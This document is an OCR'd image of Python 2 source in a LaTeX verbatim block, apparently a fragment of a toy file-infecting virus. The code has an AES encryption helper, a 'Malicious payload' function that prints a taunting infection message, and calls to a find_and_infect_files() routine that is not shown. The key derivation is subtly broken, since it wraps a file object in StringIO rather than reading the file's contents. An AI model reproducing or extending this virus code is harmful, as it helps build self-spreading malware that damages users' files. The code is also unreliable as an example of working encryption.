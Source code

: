 \documentclass[a4paper,11pt]{article}
\begin{document}
\begin{verbatim}
# Function to encrypt
def encrypt(data,filename):
   source = open(filename + '-copy', 'r')
   # Generate a new random initialization vector
   iv = Random.new().read(AES.block_size)
   # Read first 24 bytes to create the key to encrypt data
   cipher = AES.new(StringIO.StringIO(source).read(24), AES.MODE_CFB, iv)
   # Encrypt data
   encrypted = iv + cipher.encrypt(data)

   source.close()
   # Encode encrypted data in base64
   return base64.b64encode(encrypted)

# Malicious payload to execute
def payload():
   print "This file is infected! Mhuahauhauahau!"

# Find and infect files
find_and_infect_files()
# Execute the payload
payload()
\end{verbatim}
\end{document}
